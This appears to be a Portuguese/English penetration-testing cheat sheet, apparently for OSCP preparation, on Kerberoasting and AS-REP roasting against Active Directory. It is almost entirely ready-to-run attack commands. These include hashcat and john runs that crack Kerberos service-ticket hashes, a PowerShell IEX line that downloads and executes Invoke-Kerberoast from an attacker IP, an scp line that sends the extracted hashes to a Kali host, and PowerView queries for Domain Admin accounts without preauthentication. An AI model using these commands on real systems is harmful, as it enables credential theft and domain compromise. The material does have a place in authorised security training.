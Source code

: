 ```
hashcat -m 13100 -a 0 hashestgt.txt wordlist.txt
hashcat -m 13100 -a 0 hashestgt.txt wordlist.txt -o quebradas.txt
hashcat -m 13100 -a 0 hashestgt.txt wordlist.txt --show
```
```
john hashestgt.txt --wordlist=wordlist.txt
john --format=krb5tgs hashestgt.txt --wordlist=wordlist.txt
john --show hashestgt.txt
rm  /root/.john/john.pot
```
##### KERBEROS - CONVERTER TICKET KIRBI PARA BASE64
```
kirbi2john ticket.kirbi > ticket.john
john -format=krb5tgs ticket.john --wordlist=wordlist.txt
john -format=krb5tgs ticket.john --show
hashcat -m 13100 -a 0 ticket.john wordlist.txt
hashcat -m 13100 -a 0 ticket.john wordlist.txt --show
hashcat -m 13100 -a 0 ticket.john wordlist.txt --potfile-disable
```
##### KERBEROASTING - PAPUM
```
IEX(New-Object System.Net.WebClient).DownloadString("http://172.16.99.209/oscp/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash
Invoke-Kerberoast -OutputFormat HashCat |Select-Object -ExpandProperty hash | out-file -Encoding ASCII myhashes.txt 
scp myhashes.txt kali@172.16.99.209:/tmp/
hashcat -m 13100 /tmp/myhashes.txt -a 0 10k-worst-pass.txt
hashcat -m 13100 /tmp/myhashes.txt -a 0 10k-worst-pass.txt --show
```
TALVEZ
```
cat /tmp/myhashes.txt
dos2unix /tmp/myhashes.txt
```

## KERBEROASTING-ASREP
AS-REPS roasting is a technique in which the password can be retrieved because the 'Do not require Kerberos preauthentication property' is enabled, or kerberos preauthentication is disabled. An attacker can skip the first step of authentication and request a TGT for this user, which can then be cracked offline.

##### KERBEROASTINGASREP - LOAD REQUIREMENTS
```
curl https://github.com/n0ts0cial/oscp/raw/main/Microsoft.ActiveDirectory.Management.dll -Outfile Microsoft.ActiveDirectory.Management.dll
import-module .\Microsoft.ActiveDirectory.Management.dll
```
```
curl https://github.com/n0ts0cial/oscp/raw/main/PowerView.ps1  -Outfile PowerView.ps1
import-module .\PowerView.ps1
```
##### KERBEROASTING-ASREP - FIND USERS
PROCURE POR CONTAS COM PERMISSÕES ADMINISTRATIVAS, EM GRUPOS COM PERMISSÕES ADMINISTRATIVAS
```
Get-ADUSer -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth
Get-ADUSer -Filter { DoesNotRequirePreAuth -eq $true } -Properties DoesNotRequirePreAuth | select SamAccountName, ServicePrincipalName
```
```
Get-DomainUser -PreauthNotRequired -Verbose
Get-DomainUser -PreauthNotRequired 
Get-DomainUser -PreauthNotRequired | select samaccountname
Get-DomainUser -PreauthNotRequired | ?{$_.memberof -match 'Domain Admins'}
Get-DomainUser -PreauthNotRequired | ?{$_.memberof -match 'Domain Admins'} | select samaccountname
```